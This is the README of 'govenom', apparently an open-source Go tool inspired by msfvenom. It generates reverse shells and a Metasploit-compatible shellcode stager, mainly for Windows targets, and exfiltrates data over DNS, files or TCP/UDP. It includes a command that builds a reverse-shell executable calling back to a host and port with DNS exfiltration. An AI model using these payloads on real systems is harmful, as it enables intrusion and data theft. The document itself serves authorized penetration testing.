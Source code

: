 <p align="center">
  <h2 align="center"><b>govenom</b></h3>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/build?style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
    <a href="http://pkg.go.dev/github.com/erikgeiser/govenom"><img alt="Go Doc" src="https://img.shields.io/badge/godoc-reference-blue.svg?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms, although currently `govenom` has a
strong focus on Windows as payload target platform.

## Payloads

Currently, three payloads are supportet:

* **rsh:** A simple reverse TCP shell. It selects one of the most
common shells and makes it available via TCP or UDP connection.
* **xrsh:** An extenden robust reverse TCP shell. A simple heuristic
determines the must suitable shell executable, taking shells that
are installed buth not in `$PATH` into account. In contrast to most
other available shells out there, additional info can be sent via
alternative communication channels via the exfiltration mechanism
(see relevant section below). For example, if no shell could be
detected or the connection could not be established due to a
firewall, the corresponding error can be exfiltrated via DNS.
* **stager**: A TCP based shellcode stager that is compatible with
Metasploits `exploits/multi/handler` with a `meterpreter/reverse_tcp`
payload. It first reads a 4 Byte shellcode length and then the
shellcode itself from a TCP connection and executes it. Currently,
this is only available for Windows targets.

## Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections, or maybe one of
the ports you tried. Maybe you expected `powershell` to be present
but only `cmd` is there. The solution to problem is the `govenom`
debug log exfiltration mechanism which can optionally be used with
`xrsh` and `stager` payloads. It lets you configure an arbitrary
amount of exfiltration strategies of the following types:

* **`stdout`/`stderr`:** If you can capture the output of your
payload when it's executed, you can output debug logs via
`stdout/stderr`.

* **DNS:** The most useful exfiltration type because noone blocks
DNS. Messages are encoded and split into parts which can be put
together again by the `govenom` tool `dnslogger` (see section
below).

* **File:** Write the debug information into a file on the target
system. This is for example useful if you can recover files via a
local file inclusion vulnerability.

* **Net (`dial`):** Send the debug log via a TCP or UDP connection that's
different from the original connect back connection.

## Tools

`govenom` also provides some tools to work with the payloads:

* **dnslogger:** The `dnslogger` tool decodes and recombines messages
that were exfiltrated via DNS.

* **pusher:** The `pusher` tool can serve and deliver `meterpreter`
shellcode generated using `msfvenom` to the `govenom` stager payload.

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
go run ./govenom.go payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exil dns:example.com,stdout,dial:udp:127.0.0.1:1234
    -o revsh.exe

# run the 
go run ./govenom.go tool dnslogger
```

**Note:** `go` has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## Plans

* Connection encryption
* Reverse shell listener like `ncat` with loggin capabilities
* Embedding payload code into the `govenom` binary